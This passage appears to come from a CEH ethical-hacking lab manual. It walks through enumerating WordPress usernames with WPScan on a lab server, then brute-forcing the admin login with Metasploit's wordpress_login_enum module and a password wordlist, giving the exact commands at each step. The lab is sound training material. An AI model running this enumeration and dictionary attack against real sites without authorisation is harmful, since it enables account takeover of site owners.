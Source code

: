 	6. In the Terminal window, type wpscan --api-token [API Token] --url http://10.10.1.22:8080/CEH --enumerate u and press Enter.
--enumerate u: specifies the enumeration of usernames.
Here, we will use the API token that we obtained by registering with the https://wpscan.com/register website.
	
	7. WPScan begins to enumerate the usernames stored in the website’s database. The result appears, displaying detailed information from the target website.
	8. Scroll down to the User(s) Identified section and observe the information regarding the available user accounts.
	
	9. Now that you have successfully obtained the usernames stored in the database, you need to find their passwords.
	10. To obtain the passwords, you will use the auxiliary module called wordpress_login_enum (in msfconsole) to perform a dictionary attack using the password.txt file (in the Wordlist folder) which you copied to the location /home/attacker/Desktop/CEHv12 Module 14 Hacking Web Applications.
	11. To use the wordpress_login_enum auxiliary module, you need to first launch msfconsole. However, before this, you need to start the PostgreSQL service.
	12. In the terminal window, type service postgresql start and press Enter to start the PostgreSQL service.
	
	13. Type msfconsole and press Enter to launch the Metasploit framework.
	14. In msfconsole, type use auxiliary/scanner/http/wordpress_login_enum and press Enter.
	
	15. This module allows you to enumerate the login credentials.
	16. To know all options available to configure in this Metasploit module, type show options, and press Enter.
	17. This provides a list of options that can be set for this module. As we must obtain the password for the target user account, we will set the below options:
	• PASS_FILE: Sets the password.txt file, using which; you will perform the dictionary attack
	• RHOST: Sets the target machine (here, the Windows Server 2022 IP address)
	• RPORT: Sets the target machine port (here, the Windows Server 2022 port)
	• TARGETURI: Sets the base path to the WordPress website (here, http://[IP Address of Windows Server 2022]:8080/CEH]
	• USERNAME: Sets the username that was obtained in Step 8. (here, admin)
	
	18. Now, in the msfconsole, type the below commands:
	• Type set PASS_FILE /home/attacker/Desktop/CEHv12 Module 14 Hacking Web Applications/Wordlist/password.txt and press Enter to set the file containing the passwords. (here, we are using the password.txt password file).
	• Type set RHOSTS [IP Address of Windows Server 2022] (here, 10.10.1.22) and press Enter to set the target IP address. (Here, the IP address of Windows Server 2022 is 10.10.1.22).
	• Type set RPORT 8080 and press Enter to set the target port.
	• Type set TARGETURI http://[IP Address of Windows Server 2022]:8080/CEH and press Enter to set the base path to the WordPress website (Here, the IP address of Windows Server 2022 is 10.10.1.22).
	• Type set USERNAME admin and press Enter to set the username as admin.
You may issue any one of the usernames that you have obtained during the enumeration process in Step 8. In this task, the admin user is being issued.
	
	19. All the options have successfully been set. Type run and press Enter to execute the auxiliary module.
	
	20. Observe that the auxiliary module initially enumerates details such as the ID number and the stored location of the username admin, and then begins to brute-force the login credentials by trying various passwords for the given username.
	